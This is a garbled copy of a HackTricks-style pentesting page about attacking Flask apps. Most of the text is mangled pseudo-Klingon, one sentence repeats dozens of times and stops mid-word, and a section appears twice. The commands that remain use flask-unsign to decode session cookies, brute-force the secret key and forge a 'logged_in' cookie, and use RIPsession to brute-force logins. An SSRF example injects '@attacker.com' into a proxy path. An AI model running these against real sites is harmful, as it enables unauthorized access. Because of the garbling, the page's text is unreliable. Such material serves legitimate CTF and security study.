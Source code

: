 # Flask

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>qaStaHvIS</strong> <strong>zero</strong> <strong>to</strong> <strong>hero</strong> <strong>puS</strong> <strong>AWS</strong> <strong>hack</strong> <strong>ghItlhmeH</strong> <strong>!</strong></summary>

<strong>HackTricks</strong> <strong>poH:</strong>

* <strong>tlhIngan</strong> <strong>qaStaHvIS</strong> <strong>advertise</strong> <strong>company</strong> <strong>HackTricks</strong> <strong>or</strong> <strong>HackTricks</strong> <strong>PDF</strong> <strong>download</strong> <strong>Check</strong> <strong>[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)</strong>!
* <strong>PEASS</strong> <strong>&amp;</strong> <strong>HackTricks</strong> <strong>swag</strong> <strong>official</strong> <strong>Get</strong> <strong>[**PEASS</strong> <strong>&amp;</strong> <strong>HackTricks</strong> <strong>swag**](https://peass.creator-spring.com)
* <strong>PEASS</strong> <strong>Family</strong> <strong>The</strong> <strong>Discover</strong> <strong>[**PEASS</strong> <strong>Family**](https://opensea.io/collection/the-peass-family)</strong> <strong>NFTs</strong> <strong>exclusive</strong> <strong>collection</strong> <strong>[**NFTs**](https://opensea.io/collection/the-peass-family)</strong>
* <strong>Join</strong> 💬 <strong>group</strong> <strong>Discord</strong> <strong>[**group**](https://discord.gg/hRep4RUj7f)</strong> <strong>or</strong> <strong>group</strong> <strong>telegram</strong> <strong>[**group**](https://t.me/peass)</strong> <strong>or</strong> <strong>us</strong> <strong>follow</strong> <strong>Twitter</strong> 🐦 <strong>[**@carlospolopm**](https://twitter.com/hacktricks_live)</strong><strong>.</strong>
* <strong>hacking</strong> <strong>tricks</strong> <strong>Share</strong> <strong>PRs</strong> <strong>submitting</strong> <strong>by</strong> <strong>tricks</strong> <strong>hacking</strong> <strong>your</strong> <strong>us</strong> <strong>to</strong> <strong>HackTricks</strong> <strong>and</strong> <strong>HackTricks</strong> <strong>Cloud</strong> <strong>github</strong> <strong>repos</strong> <strong>[**HackTricks**](https://github.com/carlospolop/hacktricks)</strong> <strong>[**HackTricks</strong> <strong>Cloud**](https://github.com/carlospolop/hacktricks-cloud)</strong>

</details>

<figure><img src="../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

[**Trickest**](https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks) <strong>workflow</strong> <strong>automate</strong> <strong>and</strong> <strong>tools</strong> <strong>community</strong> <strong>advanced</strong> <strong>most</strong> <strong>world's</strong> <strong>the</strong> <strong>by</strong> <strong>powered</strong> <strong>workflows</strong> <strong>easily</strong> <strong>build</strong> <strong>to</strong> <strong>Today</strong> <strong>Access</strong>:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

**[**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)** <strong>Flask</strong> <strong>application</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong> <strong>to</strong> <strong>is</strong> <strong>application</strong> <strong>Flask</strong> <strong>a</strong> <strong>playing</strong> <strong>you</strong> <strong>if</strong> <strong>Probably</strong> <strong>are</strong> <strong>CTF</strong> <strong>a</strong> <strong>related</strong> <strong>be</strong> <strong>will</strong> <strong>Flask</strong> <strong>a</strong
```bash
echo "ImhlbGxvIg" | base64 -d
```
**tlhIngan Hol:**

cookie jImejDaq jatlhlaHbe'lu'chugh, password jatlhlaHbe'lu'chughmeyvam DaH

### **Flask-Unsign**

Flask jatlhlaHbe'lu'chughmeyDaq jatlhlaHbe'lu'chughmeyvam secret keys jatlhlaHbe'lu'chugh, cookie jImejDaq jatlhlaHbe'lu'chugh, decode, brute-force je craft jatlhlaHbe'lu'chughmeyvam vItlhutlh

{% embed url="https://pypi.org/project/flask-unsign/" %}
```bash
pip3 install flask-unsign
```
#### **Decode Cookie**
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
#### **Qa'Hom QaD**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```
#### **Qap**
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```
#### qawHaq using legacy (old versions)

{<br>
&nbsp;&nbsp;&nbsp;&nbsp;"title": "Signing using legacy (old versions)",<br>
&nbsp;&nbsp;&nbsp;&nbsp;"date": "2021-01-01",<br>
&nbsp;&nbsp;&nbsp;&nbsp;"tags": ["flask", "security"],<br>
&nbsp;&nbsp;&nbsp;&nbsp;"category": "Pentesting Web",<br>
&nbsp;&nbsp;&nbsp;&nbsp;"draft": false<br>
}

Legacy versions of Flask may have vulnerabilities that can be exploited for signing. These vulnerabilities can allow an attacker to bypass security measures and gain unauthorized access to the system.

To exploit these vulnerabilities, an attacker can use various techniques such as:

1. **Known Vulnerabilities**: Research and identify known vulnerabilities in the legacy version of Flask being used. Exploit these vulnerabilities to gain unauthorized access.

2. **Brute Force**: Attempt to brute force the signing mechanism by trying different combinations of keys or passwords. This can be done using automated tools or scripts.

3. **Reverse Engineering**: Analyze the code of the legacy Flask version to identify any weaknesses or vulnerabilities in the signing process. Exploit these weaknesses to gain unauthorized access.

It is important to note that using legacy versions of Flask is not recommended, as they may have known vulnerabilities that can be easily exploited. It is always recommended to use the latest stable version of Flask and keep it updated to ensure the security of your application.
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```
### **RIPsession**

Command line tool to brute-force websites using cookies crafted with flask-unsign.

{% embed url="https://github.com/Tagvi/ripsession" %}
```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```
### SQLi in Flask session cookie with SQLmap

[**This example**](../../pentesting-web/sql-injection/sqlmap/#eval) uses sqlmap `eval` option to **automatically sign sqlmap payloads** for flask using a known secret.

## Flask Proxy to SSRF

[**In this writeup**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) it's explained how Flask allows a request starting with the charcter "@":

### SQLi in Flask session cookie with SQLmap

[**This example**](../../pentesting-web/sql-injection/sqlmap/#eval) uses sqlmap `eval` option to **automatically sign sqlmap payloads** for flask using a known secret.

## Flask Proxy to SSRF

[**In this writeup**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) it's explained how Flask allows a request starting with the charcter "@":
```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
Which in the following scenario:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
Could allow to introduce something like "@attacker.com" in order to cause a **SSRF**.

<figure><img src="../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
